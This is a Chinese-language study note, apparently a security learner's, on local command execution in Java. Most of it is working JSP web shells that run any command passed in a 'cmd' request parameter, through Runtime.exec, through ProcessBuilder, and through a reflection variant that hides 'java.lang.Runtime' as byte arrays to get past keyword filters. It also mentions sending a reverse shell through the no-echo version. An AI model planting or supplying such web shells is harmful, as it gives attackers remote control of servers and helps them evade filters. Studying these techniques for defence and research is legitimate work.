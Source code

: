 # 本地命令执行

## 前言

Java 原生提供了对本地系统命令执行的支持，浅浅记录几种不同的命令执行方式。

## Runtime命令执行

最为常见的命令执行方式就是通过`java.lang.Runtime`类的`exec`方法，无回显的代码示例如下：
```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd")) %>
```

无回显传反弹 shell 命令即可
![image-20220723194743188](本地命令执行.images/image-20220723194743188-8576868.png)

修改命令回显：
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream inputStream = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream bao = new ByteArrayOutputStream();
    byte[] bytes = new byte[1024];
    int a = -1;
    while((a = inputStream.read(bytes)) !=-1){
        bao.write(bytes, 0, a);
    }
    out.write(new String(bao.toByteArray()));

%>
```

![image-20220723212513757](本地命令执行.images/image-20220723212513757.png)

分析`Runtime.getRuntime().exec()`源码，可以得到调用链如下：

```
java.lang.UNIXProcess.<init>                                        [UNIXProcess.java]
java.lang.ProcessImpl.start                                         [ProcessImpl.java]
java.lang.ProcessBuilder.start                                      [ProcessBuilder.java]
java.lang.Runtime.exec(String[] cmdarray, String[] envp, File dir)  [Runtime.java]
java.lang.Runtime.exec(String command, String[] envp, File dir)     [Runtime.java]
java.lang.Runtime.exec(String command)                              [Runtime.java]
org.apache.jsp.runtime_002dexec2_jsp._jspService                    [runtime_002dexec2_jsp.java]
```

因此，`exec()`方法是从`UNIXProcess`构造方法出发，经过一系列方法调用最终实现的命令执行

## 反射Runtime命令执行

如果对`Runtime`关键字有过滤，可以通过反射进行绕过从而执行命令
```jsp
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %><%
    String str = request.getParameter("cmd");
    // 定义"java.lang.Runtime"字符串变量
    String jlr = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});
    // 反射Runtime类获取Class对象
    Class c = Class.forName(jlr);
    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));
    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);
    // 反射调用Runtim.getRuntime().exec()方法
    Object obj = m2.invoke(m1.invoke(null,new Object[]{}),new Object[]{str});

    // 反射获取Process类的getInputStream方法
    Method m3 = obj.getClass().getMethod(new String(new  byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m3.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    // \A为正则匹配，代表从字符串开头进行匹配
    Scanner s = new Scanner((InputStream) m3.invoke(obj, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";
    out.println(result);

%>
```

##  ProcessBuilder命令执行

前面我们已经知道`exec()`方法的调用链包含`ProcessBuilder`的`strat()`方法，因此我们也可以通过`processBuilder`来执行系统命令
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;
    while((a=in.read(b))!= -1){
        baos.write(b, 0, a);
    }
    out.write(new String(baos.toByteArray()));
%>
```

![image-20220727184018164](本地命令执行.images/image-20220727184018164.png)

## 待更新

同理，`exec()`方法也调用了`UNIXProcess`和`ProcessImpl`，也可以通过调用它们来执行系统命令。目前底蕴不足，阅读源码有点困难，日后学习积累再更新。